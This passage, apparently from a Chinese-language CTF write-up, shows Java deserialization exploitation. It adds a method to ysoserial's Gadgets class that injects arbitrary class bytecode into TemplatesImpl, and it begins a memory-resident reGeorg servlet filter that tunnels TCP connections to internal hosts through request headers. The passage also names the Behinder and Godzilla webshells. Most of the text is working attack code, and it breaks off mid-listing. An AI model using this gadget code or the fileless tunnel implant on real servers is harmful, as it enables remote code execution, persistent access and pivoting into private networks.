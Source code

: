在ysoserial.payloads.util包的Gadgets类中照着原有的createTemplatesImpl方法添加一个createTemplatesImpl(Class c)，参数即为我们要让服务端加载的类，如下直接将传入的c转换为字节码赋值给了_bytecodes

```
public static <T> T createTemplatesImpl(Class c) throws Exception {
    Class<T> tplClass = null;

    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        tplClass = (Class<T>) Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl");
    }else{
        tplClass = (Class<T>) TemplatesImpl.class;
    }

    final T templates = tplClass.newInstance();
    final byte[] classBytes = ClassFiles.classAsBytes(c);

    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes
    });

    Reflections.setFieldValue(templates, "_name", "Pwnr");
    return templates;
}
```

由于这题需要的是访问内网不可达的应用，所以需要代理。当然这里使用冰蝎、哥斯拉之类的webshell，开启socks代理做转发也是可以的。对于一些不能出网的情况，正向代理reGeorg还是很有必要的。

为了方便注册filter，直接实现Filter接口。在doFilter方法中完成reGeorg的主要逻辑，在equals方法中进行filter的动态注册

```java
package reGeorg;

import javax.servlet.*;
import java.io.IOException;

public class MemReGeorg implements javax.servlet.Filter{
    private javax.servlet.http.HttpServletRequest request = null;
    private org.apache.catalina.connector.Response response = null;
    private javax.servlet.http.HttpSession session =null;

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }
    public void destroy() {}
    @Override
    public void doFilter(ServletRequest request1, ServletResponse response1, FilterChain filterChain) throws IOException, ServletException {
        javax.servlet.http.HttpServletRequest request = (javax.servlet.http.HttpServletRequest)request1;
        javax.servlet.http.HttpServletResponse response = (javax.servlet.http.HttpServletResponse)response1;
        javax.servlet.http.HttpSession session = request.getSession();
        String cmd = request.getHeader("X-CMD");
        if (cmd != null) {
            response.setHeader("X-STATUS", "OK");
            if (cmd.compareTo("CONNECT") == 0) {
                try {
                    String target = request.getHeader("X-TARGET");
                    int port = Integer.parseInt(request.getHeader("X-PORT"));
                    java.nio.channels.SocketChannel socketChannel = java.nio.channels.SocketChannel.open();
                    socketChannel.connect(new java.net.InetSocketAddress(target, port));
                    socketChannel.configureBlocking(false);
                    session.setAttribute("socket", socketChannel);
                    response.setHeader("X-STATUS", "OK");
                } catch (java.net.UnknownHostException e) {
```